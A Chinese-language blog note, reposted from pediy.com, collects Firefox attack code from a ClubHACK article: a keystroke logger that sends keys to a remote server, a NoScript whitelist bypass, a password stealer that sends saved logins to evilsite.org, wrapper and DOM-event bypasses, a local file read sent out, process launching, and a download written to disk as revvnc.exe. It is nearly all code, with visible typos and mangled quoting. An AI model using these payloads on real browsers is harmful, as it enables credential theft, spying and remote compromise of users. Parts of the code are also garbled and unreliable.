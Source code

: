 # Firefox 攻击技巧总结

> 原文：[`www.pediy.com/kssd/pediy12/134012.html`](https://www.pediy.com/kssd/pediy12/134012.html)

在阅读《ClubHACK》黑客杂志时，看到一篇关于 Firefox 浏览器攻击手法的文章，
标题为《Mozilla Firefox Internals & Attack Strategies》，里面提供有多份 javascript 代码，
用于实现 Firefox 浏览器下的脚本攻击。本文对此作个简单记录留作备忘，
以后需要用到时方便回头查阅，并参考其它资料作一总结性记录。
一、Key Logger
// 先在 Mozilla Firefox 中用 addEventListener 为 keypress 事件注册一个事件处理程序，这里为 onkey 函数，以此实现键盘记录功能。
document.addEventListener("keypress", onkey,false);
var keys='';
function onkey(e){
    keyss += String.fromCharCode(e.charCode); // 将按键码转换为字符
    if (keys.length>20){
    // 利用 XMLHTTP 请求向远程网站发送记录下的按键字符
    http=new XMLHttpRequest();
    url = "http://***********.com/prasannak/ler****.php?keylog="+keyss+"\n";
    http.open("GET",url,false);
    http.send(null);
    keyss='';
    ｝
   ｝

二、No-Script Bypass

利用 XPCOM（跨平台组件对象模型）中的类和组件来向将恶意站点添加到 no-script 白名单中，以此绕过 no-script 插件的保护。

// 其中 let 关键字只在 Firefox 或者其它基于 mozilla 的浏览器中有效，它代表着类似局部变量的意义，具体可参考这里：
// https://developer.mozilla.org/en/New_in_JavaScript_1.7#let_statement
let Sub_btn = {
    onCommand: function(event) {
        // 创建 preferences-service 实例
        var perfs =
        Components.classes["@mozilla.org/preferences-service;1"].   
        getService(Components.interfaces.nsIPrefService);
        // 获取“capability.policy.maonoscript.”子分支
        perfs = perfs.getBranch("capability.policy.maonoscript.");
        //向 no-script 白名单中添加恶意站点
        perfs.setCharPref("sites", "default noscript whitelisted sites + malicioussitehere.com”);");
          ｝
    ｝

三、Password Stealer

利用 XPCOM 来获取 LoginManager 中记录的登陆信息，以截取用户的登陆密码。
let HelloWorld = {
    onCommand: function(event) {
        // 创建 login-manager 实例
        var l2m =
        Components.classes["@mozilla.org/login-manager;1"].
        getService(Components.interfaces.nsILoginManager);
        // 获取所有被登陆管理器记录的信息
        alltheinfo = l2m.getAllLogins({});
        for (i=0; I<=alltheinfo.length; i=i+1){
            window.open('http://evilsite.org/?' 
                + unescape(alltheinfo[i].hostname) + '.' 
                + unescape(alltheinfo[i].username) + '.' 
                + unescape(alltheinfo[i].password));
        }
    }
} ;

四、攻击 DOM 与事件句柄

Extension XUL Code
<script>
var customExtension = {
    customListener: function(evt) {
        // loadOverlay 函数不能发送基于 http 的 xul 请求，但允许来自“chrome:\\”的 xul 请求。
        document.loadOverlay(evt.target.getAttribute("url"), null);
    }
}
document.addEventListener("CustomEvent", function(e) {
    customExtension.customListener(e);
}, false, true);
</script>

Malicious Web Location Code
<html>
<head>
<title>Test</title>
<script>
var element =
document.createElement("CustomExtensionDataElement");
element.setAttribute("url","chrome://hellooworld/content/q1.xul");
document.documentElement.appendChild(element);
var evt = document.createEvent("Events");
evt.initEvent("CustomEvent",true,false);
element.dispatchEvent(evt);
</script>
</head>
<body>
<p>
This Test Page </p>
</body>
</htmL>

五、Bypassing Wrappers

Extension Code
function Test_Function()
{
    test = my_message
    if (test==null)
    {
        alert("Wrapper Exists")
    }
    else{
        alert(test);
        trim =
        window.content.wrappedJSObject.my_message1
        eval(trim);
    }
}

Malicious Website Code
<html>
<head>
<title>Test</title>
<script>
var dir= "123";
my_message1="eval("eval(dirService =
Components.classes['@mozilla.org/file/directory_service;1'].
getService(Components.interfaces.nsIProperties);))
eval( homeDirFile = dirService.get('Home',
Components.interfaces.nsIFile);)
eval(homeDir = homeDirFile.path;)
eval(alert(homeDir);))"))"
</script>
</head>
<body>
<p>
This Test Page </p>
</body>
</htmL>

六、本地文件访问

var fileToRead=”file:///C:/boot.ini”; 
var fileContents=document.ReadURL.readFile(fileToRead); 
setTimeout(“”,100); 
var remoteLocation=”http://evilsite.org/” + unescape(fileContents); 
document.location=remoteLocation;

七、远程代码执行

var lFile = Components.classes["@mozilla.org/file/local;1"].
createInstance(Components.interfaces.nsILocalFile); 
var lPath = "/usr/bin/gnome-terminal"; 
lFile.initWithPath(lPath); 
var process = Components.classes["@mozilla.org/process/util;1"].
createInstance(Components.interfaces.nsIProcess); 
process.init(lFile); 
process.run(false,'','');

八、写文件系统

var xmlhttp;
function loadXMLDoc(url){
    xmlhttp=new XMLHttpRequest();
    xmlhttp.open("GET",url,false);
    xmlhttp.overrideMimeType('text/plain; charset=x-user-defined');
    xmlhttp.send(null);
    if (xmlhttp.status==200){
        setTimeout("",300);
        makefile(xmlhttp.responseText);
    }  
}  

function makefile(bdata){
var getWorkingDir= Components.classes["@mozilla.org/file/directory_service;1"].
getService(Components.interfaces.nsIProperties).
get("Home", Components.interfaces.nsIFile);
var aFile = Components.classes["@mozilla.org/file/local;1"].
createInstance(Components.interfaces.nsILocalFile);
aFile.initWithPath( getWorkingDir.path + "\\revvnc.exe" );
aFile.createUnique( Components.interfaces.nsIFile.NORMAL_FILE_TYPE, 777);
var stream = Components.classes["@mozilla.org/network/safe-file-output-stream;1"].
createInstance(Components.interfaces.nsIFileOutputStream);
stream.init(aFile, 0x04 | 0x08 | 0x20, 0777, 0);
stream.write(bdata, bdata.length);
 if (stream instanceof Components.interfaces.nsISafeOutputStream){
    stream.finish();
 } else{
    stream.close();
   }  
}